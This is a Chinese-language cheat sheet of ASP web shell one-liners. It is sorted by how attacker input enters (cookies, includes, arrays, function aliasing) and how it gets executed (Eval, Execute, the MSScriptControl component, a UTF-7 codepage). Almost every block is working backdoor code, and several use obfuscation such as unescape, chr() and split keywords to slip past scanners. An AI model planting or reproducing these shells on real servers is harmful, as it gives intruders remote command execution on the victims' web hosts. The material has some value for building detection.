 
# source

#### cookie
```
请求包
GET /1.asp HTTP/1.1
Host: 192.168.66.134
Cookie: response.write(111)'
```

```
<%
eval(""+Request.Cookies)
%>
```

#### 编码
```
<%execute(unescape("eval%20request%28%22aaa%22%29"))%>
```

```
<%Eval(Request(chr(35)))%>
```

#### 语法
```
<%Eval(Request(chr(35))+"")%>
```

# 数据流
#### 文件
1.asp
```
<%
code=Request(1)
%>
```

2.asp
```
<!--#include file="1.asp" -->
<%
response.write(code)
%>
```

访问2.asp?1=response.write(1111)


#### 函数传递
```
<%@LANGUAGE="javascript"%>
<%
param=Request(1)+''
func=eval
func(param)
%>
```

#### 数组
```
<%
x=Request(1)
param = Array(x,"xxx")
eval(param(0))
%>
```


#### 多个<%%>
```
<%code=Request(1)%>

<%
Eval(code+"")
%>
```

# sink

#### 代码执行
Eval、Execute、ExecuteGlobal

#### 组件
2003可以，2008找不到组件
```
<%
set ms = server.CreateObject("MSScriptControl.ScriptControl.1")
ms.Language="VBScript"
ms.AddObject "Response", Response
ms.AddObject "request", request
ms.AddObject "session", session
ms.AddObject "server", server
ms.AddObject "application", application
ms.ExecuteStatement ("ex"&"e"&"cute(request(1))")%>
```

#### utf7编码
```
<%@ codepage=65000%><% response.Charset="936"%>
<%
e+j-v+j-a+j-l(request(1))
%>
```

# 参考
新仙剑之鸣、LandGrey
